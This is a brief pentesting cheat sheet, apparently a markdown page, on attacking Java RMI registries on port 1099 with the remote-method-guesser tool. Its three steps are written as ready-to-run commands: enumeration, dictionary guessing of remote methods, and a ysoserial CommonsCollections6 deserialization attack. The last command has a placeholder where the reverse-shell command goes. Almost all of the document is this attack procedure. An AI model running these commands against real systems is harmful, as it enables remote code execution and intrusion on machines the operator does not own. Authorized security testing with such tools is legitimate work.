 # RMI Registry Java Pentesting

## Tool: https://github.com/qtc-de/remote-method-guesser

### Port: 1099

## STEPS:

#### 1) Enumerate RMI protocol

    java -jar rmg-4.4.1-jar-with-dependencies.jar enum IP_ADDRESS 1099 

#### 2) Guess methods in the service via a dictionary attack

    java -jar rmg-4.4.1-jar-with-dependencies.jar guess IP_ADDRESS 1099 

#### 3) Conduct a serialization attack against the service

    java -jar rmg-4.4.1-jar-with-dependencies.jar serial IP_ADDRESS 1099 --yso /opt/ysoserial.jar --bound-name monitoring --signature 'String sendData(String dummy,Object dummy2)' CommonsCollections6 'COMMAND_HERE_TO_REVERSE_SHELL' 


